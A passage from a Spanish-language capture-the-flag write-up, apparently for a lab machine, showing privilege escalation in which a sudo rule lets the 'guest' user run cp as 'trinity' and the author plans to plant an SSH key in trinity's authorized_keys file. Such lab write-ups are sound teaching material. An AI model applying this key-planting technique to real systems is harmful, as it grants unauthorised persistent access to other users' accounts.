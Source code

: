 ```bash
$ssh guest@192.168.1.54 bash
```

- Con esto ahora sí estaremos en una bash y solo restaría hacer su respectivo tratamiento para mayor comodidad.
<br><br>
# ESCALANDO PRIVILEGIOS:

- Si revisamos permisos de sudoers podemos encontrar lo siguiente:

```bash
$sudo -l
```

```js
User guest may run the following commands on porteus:
    (ALL) ALL
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp
```

- Es decir, podemos ejecutar el binario "cp" como el usuario "trinity" sin usar contraseña.

- Como sabemos el binario "cp" se encarga de copiar cualquier tipo de fichero o directorio, así que en este caso, podemos aprovecharlo para copar una `key pública SSH` generada por el usuario "guest" dentro de la carpeta ".ssh" del directorio del usuario "trinity" con el nombre de "authorized_keys" para que podamos acceder por SSH como el usuario "trinity" sin proporcionar contraseña.

- Primero generamos la key pública:

```bash
$ssh-keygen
```

```js
Generating public/private rsa key pair.
Enter file in which to save the key (/home/guest/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/guest/.ssh/id_rsa.
Your public key has been saved in /home/guest/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:aC5RW8CS4VDSq7P/9DBTEJ5Jlumba6sbLnhqtrukUWM guest@porteus
The key's randomart image is:
+---[RSA 2048]----+
|  ooo+=o         |
|   ++++=         |
|    .+* .        |
|    ...=         |
|  E.. +oS        |
| oo. +o.         |
|.o oo *.         |
|+++. +o=         |
|=*+o==o..        |
+----[SHA256]-----+
```
